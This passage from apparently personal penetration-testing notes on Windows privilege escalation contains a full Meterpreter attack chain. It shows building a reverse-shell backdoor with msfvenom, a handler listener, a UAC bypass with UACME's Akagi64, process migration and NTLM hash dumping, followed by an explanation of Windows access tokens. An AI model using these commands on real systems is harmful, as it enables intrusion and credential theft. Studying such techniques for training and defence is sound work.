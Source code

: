 ```
meterpreter> getprivs
```

```bash
# create the listener
john@attack> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f exe > backdoor.exe
john@attack> msfconsole

msf6> use multi/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost 10.10.5.2
msf6> set lport 1234
msf6> run
```

```bash
# go back to meterpreter
meterpreter> cd C:\\
meterpreter> mkdir Temp
meterpreter> cd Temp
meterpreter> upload /root/backdoor.txt
meterpreter> upload /root/Desktop/tool/UACME/Akagi64.exe
meterpreter> shell

C:\Temp> .\Akagi64.exe 23 C:\Temp\backdoor.exe
```

```bash
# look at the listener, it has a new session
meterpreter> sysinfo
meterpreter> getprivs
```

```bash
meterpreter> ps
```

```bash
meterpreter> migrate 688
meterpreter> getuid
meterpreter> run post/windows/gather/smart_hashdump  # NTLM hash here
```

### Access token impersonation

#### Windows access token

* Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
* A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed.
* Access tokens are generated by the `winlogon.exe` process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the `userinit.exe` process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
* Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.
* An access token will typically be assigned one of the following security levels :
  * Impersonate-level tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
  * Delegate-level tokens are typically created through an interactive login on Windows, primarily through a traditional login or through remote access protocols such as RDP.